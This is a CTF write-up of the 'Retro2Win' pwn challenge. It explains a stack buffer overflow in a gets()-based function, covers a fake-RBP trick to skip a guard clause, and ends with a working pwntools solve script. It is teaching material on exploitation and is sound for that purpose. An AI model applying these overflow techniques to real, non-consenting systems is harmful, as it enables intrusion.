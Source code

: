 ```yaml
---
tags: ["ret2win", "stack-bof"]
download-link: ""
---
```


# 1337 Up | Retro2Win - PWN (100)

This is a straightforward ROP2Win challenge that involves exploiting a buffer overflow to control the return pointer and returning into a function that prints the flag.

## Initial Analysis

### Checksec
First thing is to look at basic memory protections

``` bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Key things to note:
- lack of stack canary, so stack smashing is possible
- No PIE, so there is no need for a .text leak for ROP

### Binary Review
When opening up `main()` the first thing that pops out is a call to `enter_cheatcode()`

``` c
if (choice != 1337) goto LAB_0040093b;
    enter_cheatcode();
```

By giving the menu option `1337` we can call `enter_cheatcode()`, which contains a stack buffer overflow vulnerability

``` c
void enter_cheatcode(void) {
  char buff [16];
  
  puts("Enter your cheatcode:");
  gets(buff);
  printf("Checking cheatcode: %s!\n",buff);
  return;
}
```

Looking through potential places to jump to, we notice the function `cheat_mode`, which gives us everything we need to solve this challenge

``` c
void cheat_mode(long param_1,long param_2) {
    if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    flag_file = fopen("flag.txt","r");
    ...
    else {
      pcVar1 = fgets(flag,0x40,flag_file);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",flag);
      }
      fclose(flag_file);
    }
    ...
}
```

Summarizing the findings:
- `enter_cheatcode()` has a buffer overflow vulnerability that let's us control `RIP`
- the address to cheat_mode is known because of `No PIE`

## Exploitation
First thing is to set the option to 1337 in order to call the `enter_cheatcode()` function.
From there we can exploit the buffer overflow by overflowing the buffer and RBP with `0x18` bytes, and then overwriting RIP with the next `8` bytes.

The issue with overwriting `0x18` bytes is that RBP gets overwritten, then leave is called. So when this function exits RBP

### Picking return address
Looking at the `cheat_mode` function it appears there is a guarding clause which is checking that input parameters are set a specific way.
This can be bypassed by returning to the address after the guarding clause check.

``` asm
; Compare first parameter
00400746    MOV        RAX,0x2323232323232323
00400750    CMP        qword ptr [RBP + local_60],RAX
00400754    JNZ        LAB_004007e2

; Compare second parameter
0040075a    MOV        RAX,0x4242424242424242
00400764    CMP        qword ptr [RBP + local_68],RAX
00400768    JNZ        LAB_004007e2

; Print flag, if both parameters pass checks
0040076a    MOV        EDI=>s_CHEAT_MODE_ACTIVATED!
0040076f    CALL       <EXTERNAL>::puts
00400774    MOV        EDI=>s_You_now_have_access_to_sec...
00400779    CALL       <EXTERNAL>::puts
```

Since there is `No PIE`, returning to the address `0x0040076a` will skip the guard clause and print the flag.

### Problems with RBP
Because we skipped the prologue, which usually contains basic stack frame setup

``` asm
00400736    PUSH       RBP
00400737    MOV        RBP,RSP
0040073a    SUB        RSP,0x60
```

RBP is still the value that we set it `0x4141414141414141`. Local values are usually referenced by the stack frame pointer (RBP), which is what is causing the seg fault since `0x4141414141414141 - 0x10` is not valid memory space.

``` asm
0040078d    MOV        qword ptr [RBP + local_10],RAX
00400791    CMP        qword ptr [RBP + local_10],0x0
```

To fix this we need to get RBP to be a valid place in memory which is writeable (since we are moving values into it).
This can usually be found in the segment that holds sections like `.bss` and `.data`.
I picked the address `0x00602800`, but any scratch space location should do the trick.

``` python
payload = b'A' * 0x10
payload += p64(0x00602800) # RBP
payload += p64(0x0040076a) # RIP
```

Making that change should fix the seg fault and give us the flag! It's important to know that there are [other methods](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions) for solving this challenge that don't involve messing with RBP, this is just the route that I chose.

## Solve Script
``` python
from pwn import *

BINARY = './retro2win'
HOST = ''
GDB_SCRIPT = ''

def main():
    proc = get_process() # set is_remote = False for local testing

    payload = b''.join([
        b'A'*0x10,
        p64(0x00602800), #RBP
        p64(0x0040076a), #RIP
    ])

    proc.sendlineafter(b'Select an option:', b'1337')
    proc.sendlineafter(b'Enter your cheatcode:', payload)
    proc.recvuntil(b'FLAG: ')
    flag = proc.recvline().strip().decode()
    print(f'Flag: {flag}')

# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```